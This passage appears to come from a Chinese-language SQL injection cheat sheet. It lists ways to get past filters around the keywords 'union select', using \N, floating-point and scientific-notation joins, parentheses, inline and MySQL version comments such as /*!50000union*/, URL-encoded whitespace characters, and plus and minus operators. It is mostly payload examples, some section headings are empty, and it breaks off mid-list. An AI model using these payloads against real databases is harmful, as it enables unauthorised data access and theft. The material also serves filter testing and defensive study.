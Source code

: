 1、\N: 
	
	id=\Nunion select 

2、浮点数直接连接: 
	
	id=1.1union select

3、nen: n为整数，例如：

	1e2union select

4、单/双引号: 如果需要单/双引号闭合，则无需空格

5、左括号：例如:

	1 union(select xx)

6、注释: 任意/**/注释，例如

	1/*here*/union select xx

7、特殊注释: 例如，其中的数字和版本有关，一般大于10000都行

	id=1/*!50000union*/select

##### 位置2的替换

##### 位置3的替换

1、空格替换：有如下字符可替代空格

	%09, %0a, %0b, %0c, %0d, %a0

2、注释: 任意/**/注释，例如

	1 union/*here*/select xx

3、左括号：

	1 union(select xx)

##### 位置4的替换

##### 位置5的替换

1、空格替换：有如下字符可替代空格

	%09, %0a, %0b, %0c, %0d, %a0


2、左括号：例如:

	1 union select(1),xx

3、运算符

*加减号：*

	1 union select+1,xx
	1 union select-1,xx

*~符号：*
